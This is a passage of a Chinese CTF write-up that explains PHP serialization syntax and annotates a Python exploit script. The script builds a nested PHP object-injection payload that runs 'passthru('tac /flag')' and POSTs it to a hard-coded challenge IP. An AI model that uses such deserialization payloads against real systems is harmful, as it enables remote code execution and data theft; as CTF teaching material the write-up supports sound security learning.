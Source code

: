 ### 序列化格式解析
PHP序列化格式：
- `O:1:"A":1:{}` - 对象，类名长度1，类名"A"，1个属性
- `s:3:"tou"` - 字符串，长度3，内容"tou"
- `N` - NULL值

## 利用脚本详解

让我们详细分析原始的2.py脚本：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import requests

def make_payload():
    # 构造恶意PHP代码
    # 使用passthru执行系统命令，tac是反向cat（从底部开始读取）
    shell = "<?php passthru('tac /flag');exit;?>"
    
    # 计算代码长度，这在PHP序列化中非常重要
    length = len(shell)   # 35个字符
    
    # 构造序列化payload
    payload = (
        'O:1:"A":1:{'           # A类对象开始，有1个属性
          's:3:"tou";'          # 属性名"tou"，长度为3
            'O:1:"B":1:{'       # B类对象，A的$tou属性的值
              's:3:"sjq";'      # 属性名"sjq"，长度为3
                'O:1:"C":2:{'   # C类对象，B的$sjq属性的值，有2个属性
                  's:6:"huoyan";' # 属性名"huoyan"，长度为6
                    'O:1:"D":1:{' # D类对象，C的$huoyan属性的值
                      's:4:"code";' # 属性名"code"，长度为4
                      f's:{length}:"{shell}";' # 恶意代码，长度为35
                    '}'
                  's:7:"jinjing";' # 属性名"jinjing"，长度为7
                    'N;'        # NULL值，这会触发__get方法
                '}'
            '}'
        '}'
    )
    return payload

def exploit(url):
    # 构造POST数据
    data = {'ctf': make_payload()}
    
    # 打印payload用于调试
    print("[*] payload:", make_payload())
    
    # 发送POST请求
    resp = requests.post(url, data=data, timeout=5)
    
    # 打印响应内容
    print(resp.text)

if __name__ == '__main__':
    # 攻击目标
    exploit('http://110.42.47.169:35603/')
```
